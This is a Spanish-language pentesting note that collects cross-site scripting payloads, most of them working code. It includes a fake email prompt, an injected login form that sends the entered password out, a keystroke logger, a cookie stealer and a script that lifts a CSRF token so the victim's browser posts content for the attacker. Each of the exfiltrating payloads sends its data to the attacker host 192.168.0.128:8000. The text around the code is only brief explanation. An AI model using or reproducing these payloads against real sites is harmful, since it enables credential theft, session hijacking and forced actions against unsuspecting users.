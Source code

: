 
____

- Tags: 

___
# Introducción

**XSS (Cross-Site Scripting)** es una vulnerabilidad de seguridad que permite a los atacantes ejecutar scripts maliciosos en páginas web visualizadas por otros usuarios. Estos scripts pueden robar información confidencial, manipular el contenido de la página o realizar acciones en nombre del usuario afectado. A continuación, se presentan algunos ejemplos de scripts **XSS** comúnmente utilizados.

____
# Ejemplos de Scripts para XSS

### Ventana de Prompt para Obtener Correo Electrónico:

```js
<script>

  var email = prompt("Ingrese su correo electronico","example@example.com");

  if (email == null || email == ""){
      alert("Por favor, recarga la página");
  }else{
    fetch("http://192.168.0.128:8000/"+"?email="+email)

  }

</script>

```

Este script solicita al usuario su correo electrónico a través de una ventana emergente y envía la información a un servidor mediante una solicitud GET.

### Formulario de Inicio de Sesión Malicioso:

```js
  <script>
    document.addEventListener("DOMContentLoaded", function() {
      var formContainer = document.createElement("div");
      formContainer.innerHTML = `
        <form id="loginForm">
          <label for="email">Correo Electrónico:</label>
          <input type="email" id="email" name="email" required>
          
          <label for="password">Contraseña:</label>
          <input type="password" id="password" name="password" required>
          
          <button type="button" onclick="enviarFormulario()">Enviar</button>
        </form>
      `;

      document.body.appendChild(formContainer);
    });

    function enviarFormulario() {
      var email = document.getElementById("email").value;
      var password = document.getElementById("password").value;

      if (email === "" || password === "") {
        alert("Por favor, complete todos los campos.");
      } else {
        // Construir la URL con los parámetros
        var url = "http://192.168.0.128:8000/?email=" + email + "&password=" + password;

        // Realizar la solicitud GET
        fetch(url)
        .then(response => {
          if (response.ok) {
            alert("Inicio de sesión exitoso");
            // Puedes redirigir al usuario a otra página o realizar otras acciones necesarias
          } else {
            alert("Error al iniciar sesión");
          }
        })
        .catch(error => {
          console.error("Error de red:", error);
        });
      }
    }
  </script>
```

Este script agrega dinámicamente un formulario de inicio de sesión falso en la página y envía las credenciales a un servidor remoto.

### Keylogger:

```js

<script>

  var k = "";
  document.onkeypress = function(e){
    e = e || window.event;

    k+=e.key;
    var i = new Image();

    i.src = "http://192.168.0.128:8000/" + k;

  }


</script>

```


Este script registra todas las teclas presionadas por el usuario y las envía a un servidor remoto.

### Redirección Automática:

```js

<script>

window.location.href = 'https://www.ejemplo.com';

</script>


```

Este código en JavaScript se utiliza para redirigir automáticamente a la página web especificada. 

### Inclusión de Script Externo:

```html
<script src='http://anotherexample.org/script.js'></script>
```

Al inyectar este código en una página, se carga y ejecuta un script remoto que puede realizar acciones maliciosas, como se muestra a continuación:


```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.128:8000/?cookie=' + document.cookie);
request.send();
```

Este script envía la cookie de la víctima a un servidor remoto a través de una solicitud GET.

También podemos hacer que la víctima haga cosas, tal es el caso de crear un nuevo post en alguna web, pero para eso primero tenemos que hacer un post malicioso que, al momento en que la víctima entre, ejecute un script remoto que haga que esta cree un nuevo post personalizado por el atacante:

```html
<script src='http://anotherexample.org/script.js'></script>
```

Luego hacemos el script malicioso que hace que la víctima haga un post hecho por el atacante:

```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName('_csrf_token')[0].value;

var req2 = new XMLHttpRequest();
var data = "title=hola&subtitle=hola&text=hola&_csrf_token=" + token;
req2.open('POST', "http://localhost:10007/newgossip");
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

El código realiza dos solicitudes [[HTTP]] usando XMLHttpRequest. La primera solicitud (GET) obtiene un token CSRF de una página web y la segunda solicitud (POST) envía datos junto con ese token a otra URL.